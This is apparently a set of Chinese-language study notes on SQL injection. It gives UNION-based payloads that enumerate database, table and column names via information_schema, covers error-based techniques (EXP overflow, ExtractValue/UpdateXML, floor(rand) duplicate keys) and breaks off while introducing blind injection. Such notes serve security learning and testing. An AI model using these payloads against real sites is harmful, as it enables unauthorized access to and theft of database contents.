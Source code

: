 1. 判断显示位
```
?id=-1' UNION SELECT 1,2,3%23
```
1. 获取数据（数据库名、表名、字段名）

数据库
```
?id=-1' union select 1,group_concat(schema_name),3+from+information_schema.schemata%23
```
表名
```
?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema= database()%23
```
字段名
```
?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema=database() AND table_name='users'%23
```

## 报错注入（error-based）

存在注入，且有错误信息显示，通过人为制造错误条件，使得结果出现在错误信息中

> `~`按位取反
- 数据溢出
  - EXP(_number_) 返回e的x次方
  - `!(select*from(select user())X)-~0`
- XPATH语法错误
  - ExtractValue(_xml_frag_, _xpath_expr_) 查询
  - UpdateXML(_xml_target_, _xpath_expr_, _new_xml_) 修改
  
- 主键重复，count()和group by在遇到rand()产生的重复值

```sql
select count(*) from information_schema.schemata group by concat((select user()),floor(rand(0)*2));
```

表中需要至少3条数据才能报错

## 盲注

存在注入，但没有回显和错误信息。盲注根据判断指标，分为`基于布尔的盲注`和`基于时间的盲注`。

- `SUBSTR(_string_, _start_, _lenth_)` - 字符串截取
- `ASCII(_character_)` - 返回字符的ASCII值

- `LENGTH(_string_)` - 返回字符串长度
- `if(条件,成立,不成立)` 
- `SELECT IF(500<1000, "YES", "NO");`

### 基于布尔的盲注（boolean-based blind）

根据页面返回内容不同进行判断
